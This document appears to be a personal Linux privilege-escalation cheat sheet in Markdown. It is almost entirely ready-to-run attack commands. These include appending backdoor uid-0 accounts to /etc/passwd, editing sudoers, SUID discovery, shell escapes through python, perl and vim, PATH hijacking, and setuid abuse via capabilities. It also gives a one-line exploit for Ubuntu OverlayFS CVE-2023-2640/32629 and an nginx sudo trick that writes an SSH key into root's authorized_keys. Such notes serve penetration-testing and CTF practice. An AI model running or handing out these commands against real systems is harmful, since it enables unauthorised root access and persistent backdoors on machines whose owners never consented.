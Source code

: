Add root2 to /etc/passwd:
```bash
echo "root2:$(openssl passwd toor):0:0:root:/root:/bin/bash" >> /etc/passwd
```

Add user to SUDOers group:

```shell
nano /etc/sudoers
```

```
root ALL=(ALL) ALL
$USER ALL=(ALL) ALL
```
---

List if use can execute a cmd as root

```shell
sudo -l
```

```shell
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

if you can alter /etc/passwd just remove the first x for the root user and then you can su root without a password

Shell SUDO / escape:
---
---

[https://gtfobins.github.io/gtfobins/vi/#sudo](https://gtfobins.github.io/gtfobins/vi/#sudo)

---

Using python:

```shell
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

Using echo:

```shell
echo 'os.system('/bin/bash')'
```

Using sh:

```shell
/bin/sh -I
```

Using bash:

```shell
/bin/bash -I
```

```shell
/bin/bash -p
```

Using perl:

```shell
perl -e 'exec "/bin/sh";'
```

From within VI

```
:!bash
```

From within VIM

```
:export shell=/bin/bash
```

```
:shell
```

Shell escape sequences:

[https://atom.hackstreetboys.ph/linux-privilege-escalation-shell-escape-sequences/](https://atom.hackstreetboys.ph/linux-privilege-escalation-shell-escape-sequences/)

Abuse non-absolute path in scripts/bins run as root:

```bash
#create the script and rename to match the file you wish to impersonate
echo "#\!/bin/bash\nbash" > /dev/shm/malicious_bin
chmod +x /dev/shm/malicious_bin
#make sure it searches /dev/shm first for the file
export PATH=/dev/shm:$PATH
```

Proper path for GCC and other utilities:

```shell
export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
```

Delete last line from a file in place:

```shell
sed -i '$d' <file>
```

```bash
echo "echo \"exploited:\\\$1\\\$somesalt\\\$zl7ghhyb/ddzu8Jlo.q4b1:0:0::/root/bin/bash\" >> /etc/passwd" >> VULN_SH
```

Python with getcap:

```shell
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Add superuser to /etc/passwd with username exploited and pass t00r

```code
exploited:$1$somesalt$zl7ghhyb/ddzu8Jlo.q4b1:0:0::/root/bin/bash
```

Escape sudo script directory:

```shell
sudo /usr/bin /path/with/rights/../../../home/USER/FILE
```

Escalate priv with getcap

```shell
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
Ubuntu Local Privilege Escalation (CVE-2023-2640 & CVE-2023-32629):

```bash
#ubuntu overlayfs priv esc from reddit
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash -i")'
```

Abuse NGINX sudo for privesc:
----
create the following /tmp/pwn.conf on box:
```conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
        server {
                listen 1337;
                root /;
                autoindex on;
                dav_methods PUT;
     }
}
```
```bash
sudo nginx -c /tmp/pwn.conf
ss -tunlp
#make sure port 1337 is opened
ssh-keygen
curl -X PUT localhost:1337/root/.ssh/authorized_keys -d "$(cat id_rsa.pub)"
```


